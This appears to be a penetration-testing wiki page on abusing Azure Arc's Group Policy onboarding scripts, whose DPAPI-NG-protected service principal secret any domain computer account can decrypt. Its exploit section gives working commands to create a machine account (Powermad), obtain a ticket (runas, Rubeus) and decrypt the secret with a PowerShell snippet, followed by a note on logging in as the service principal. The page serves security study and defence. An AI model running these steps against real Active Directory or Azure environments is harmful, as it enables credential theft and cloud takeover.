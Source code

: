 # Az - Arc vulnerable GPO Deploy Script

### Identifying the Issues

Azure Arc allows for the integration of new internal servers (joined domain servers) into Azure Arc using the Group Policy Object method. To facilitate this, Microsoft provides a deployment toolkit necessary for initiating the onboarding procedure. Inside the ArcEnableServerGroupPolicy.zip file, the following scripts can be found: DeployGPO.ps1, EnableAzureArc.ps1, and AzureArcDeployment.psm1.

When executed, the DeployGPO.ps1 script performs the following actions:

1. Creates the Azure Arc Servers Onboarding GPO within the local domain.
2. Copies the EnableAzureArc.ps1 onboarding script to the designated network share created for the onboarding process, which also contains the Windows installer package.

When running this script, sys admins need to provide two main parameters: **ServicePrincipalId** and **ServicePrincipalClientSecret**. Additionally, it requires other parameters such as the domain, the FQDN of the server hosting the share, and the share name. Further details such as the tenant ID, resource group, and other necessary information must also be provided to the script.

An encrypted secret is generated in the AzureArcDeploy directory on the specified share using DPAPI-NG encryption. The encrypted secret is stored in a file named encryptedServicePrincipalSecret. Evidence of this can be found in the DeployGPO.ps1 script, where the encryption is performed by calling ProtectBase64 with $descriptor and $ServicePrincipalSecret as inputs. The descriptor consists of the Domain Computer and Domain Controller group SIDs, ensuring that the ServicePrincipalSecret can only be decrypted by the Domain Controllers and Domain Computers security groups, as noted in the script comments.

```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```

### Exploit

We have the follow conditions:

1. We have successfully penetrated the internal network.
2. We have the capability to create or assume control of a computer account within Active Directory.
3. We have discovered a network share containing the AzureArcDeploy directory.

There are several methods to obtain a machine account within an AD environment. One of the most common is exploiting the machine account quota. Another method involves compromising a machine account through vulnerable ACLs or various other misconfigurations.

```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Once a machine account is obtained, it is possible to authenticate using this account. We can either use the runas.exe command with the netonly flag or use pass-the-ticket with Rubeus.exe.

```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```

By having the TGT for our computer account stored in memory, we can use the following script to decrypt the service principal secret.

```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```

Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

At this point, we can gather the remaining information needed to connect to Azure from the ArcInfo.json file, which is stored on the same network share as the encryptedServicePrincipalSecret file. This file contains details such as: TenantId, servicePrincipalClientId, ResourceGroup, and more. With this information, we can use Azure CLI to authenticate as the compromised service principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

